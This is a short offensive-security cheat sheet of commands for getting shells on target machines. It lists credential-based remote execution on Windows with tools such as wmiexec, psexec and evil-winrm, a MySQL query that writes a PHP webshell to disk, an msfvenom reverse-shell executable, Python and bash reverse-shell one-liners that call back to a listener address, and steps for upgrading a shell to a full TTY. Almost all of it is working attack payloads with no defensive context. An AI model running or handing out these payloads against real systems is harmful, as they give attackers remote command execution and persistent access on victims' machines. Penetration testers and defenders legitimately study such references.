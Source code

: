 # Shells


## Windows Shell

> for winRM do : `PATH="ruby -e 'puts Gem.user_dir'/bin:$PATH"`

```bash
.\WmiExec.ps1 -ComputerName "<target>" -Command "Get-ChildItem C:\"
wmiexec.py <domain>\<user>:<pass>@<target>
winexe -U <domain>/<user>%<pass> //<target> cmd.exe /c dir C:\
evil-winrm -i <target> -u <user> -p '<pass>'
python psexec.py '<user>:<pass>@<target>'
```

## Webshell

### Mysql

```bash
SELECT '<?php passthru($_GET[cmd]);?>' INTO OUTFILE '<file_location>/<filename>'
```

---

## Reverse Shell


### Check outgoing ports 

**Internet**

- [portquiz](http://portquiz.net/)

**local** 

```bash
# Generate and execute on target
msfvenom -p windows/shell/reverse_tcp_allports -f exe > test_firewall.exe

# Listen for incoming traffic
tcpdump -ni any host <target>
```

### Python

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip_listener>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

---

## Get better shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
ctrl + z
stty raw -echo
fg
reset
```
> does not work for ZSH, use BASH !
